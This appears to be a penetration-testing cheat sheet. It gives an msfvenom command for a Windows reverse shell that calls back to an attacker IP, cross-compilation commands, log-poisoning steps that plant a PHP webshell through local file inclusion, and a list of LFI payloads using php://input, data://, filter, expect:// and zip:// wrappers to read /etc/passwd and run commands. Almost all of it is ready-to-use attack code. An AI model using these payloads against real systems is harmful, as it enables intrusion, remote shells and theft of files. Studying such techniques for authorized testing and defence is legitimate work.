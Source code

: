 ### Generating Payload with msfvenom <a id="generating-payload-with-msfvenom"></a>

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.245 LPORT=443 -f c -a x86 --platform windows -b "\x00\x0a\x0d" -e x86/shikata_ga_nai
```

### Compiling Code From Linux <a id="compiling-code-from-linux"></a>

```bash
# Windows
i686-w64-mingw32-gcc source.c -lws2_32 -o out.exe

​# Linux
gcc -m32|-m64 -o output source.c
```

### Local File Inclusion to Shell <a id="local-file-inclusion-to-shell"></a>

```bash
nc 192.168.1.102 80
GET /<?php passthru($_GET['cmd']); ?> HTTP/1.1
Host: 192.168.1.102
Connection: close​

# Then send as cmd payload via http://192.168.1.102/index.php?page=../../../../../var/log/apache2/access.log&cmd=id
```

### Local File Inclusion: Reading Files <a id="local-file-inclusion-reading-files"></a>

```bash
file:///etc/passwd​

http://example.com/index.php?page=php://input&cmd=ls
    POST: <?php system($_GET['cmd']); ?>
    
http://192.168.2.237/?-d+allow_url_include%3d1+-d+auto_prepend_file%3dphp://input
    POST: <?php system('uname -a');die(); ?>​
    
expect://whoami
http://example.com/index.php?page=php://filter/read=string.rot13/resource=index.php
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php
http://example.com/index.php?page=php://filter/zlib.deflate/convert.base64-encode/resource=/etc/passwd
http://example.net/?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4=&cmd=id
http://10.1.1.1/index.php?page=data://text/plain,%3C?php%20system%28%22uname%20-a%22%29;%20?%3E

​# ZIP Wrapper
echo "<pre><?php system($_GET['cmd']); ?></pre>" > payload.php;  
zip payload.zip payload.php;   
mv payload.zip shell.jpg;    
http://example.com/index.php?page=zip://shell.jpg%23payload.php​

# Loop through file descriptors
curl '' -H 'Cookie: PHPSESSID=df74dce800c96bcac1f59d3b3d42087d' --output -
```
